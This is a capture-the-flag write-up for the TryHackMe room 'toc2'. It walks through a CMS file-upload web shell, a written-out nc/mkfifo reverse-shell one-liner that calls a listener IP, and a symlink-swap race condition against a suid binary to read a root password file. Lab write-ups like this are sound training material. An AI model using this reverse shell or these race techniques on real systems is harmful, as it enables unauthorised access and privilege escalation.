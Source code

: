 # toc2

https://tryhackme.com/room/toc2

"It's a setup... Can you get the flags in time?"

Interesting room! Sort of an education in a specific vulnerability.

1. Recon showed 80 and 22. On 80 was a holding page that gave some credentials, without specifying what those credentials were for.
2. `robots.txt` revealed a sub dir containing a cms setup file, and also in a comment gave the name of a local database.
3. Running the setup file, I created a new cms installation using the credentials from the home page and the database name when prompted for database details.
4. Logging in, under a File Manager, I could upload arbitary files. Uploading php web shells directly didn't seem to work (they were rendered as text/html), but I found uploading one as a text file then renaming it to php, before navigating to it's path directly worked. The direct navigation might have worked without renaming - by default, the file manager used some sort of module manager to load the files which might have broken the web shell.
5. With the web shell in place, I set up a reverse shell and got access as www-data (standard `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.205.196 4444 >/tmp/f` worked)
6. The only home folder was for a user named 'frank', where the user flag was readable. Also within was a note that gave the users password; this allowed me to drop my shell and ssh in normally.
7. Under the user's folder was a 'root_access' folder containing a suid binary called `readcreds` and its C code (`readcreds.c`), along with a root-only file called `root_password_backup`. The suid binary would, however, only read files the user had access to, suid be damned - running it against the root_password_backup failed.
8. The room talks about a linux file access race condition, where in the code if it uses the path to check access and then the path again to read, if you rename the file the path is pointing to between these checks you can bypass such access control. The video linked to is this one by the excellent LiveOverflow: https://www.youtube.com/watch?v=5g137gsB9Wk. In the video he uses a linux syscall to rapidly rename the files, but the C code here actually waits deliberately for a full second, so this was not necessary.
9. To get root I created a dummy file and created a symlink to it, e.g. `ln -s dummyfile myfile`, then in a separate window I readied (but didn't run yet!) `rm myfile && ln -s root_password_backup myfile`. Then in the first window, I started `readcreds myfile` and quickly switched over and ran the rename command. First try: got the root creds :)

Flag was in the root folder as normal, after switching to the root user with their creds. Interesting room.
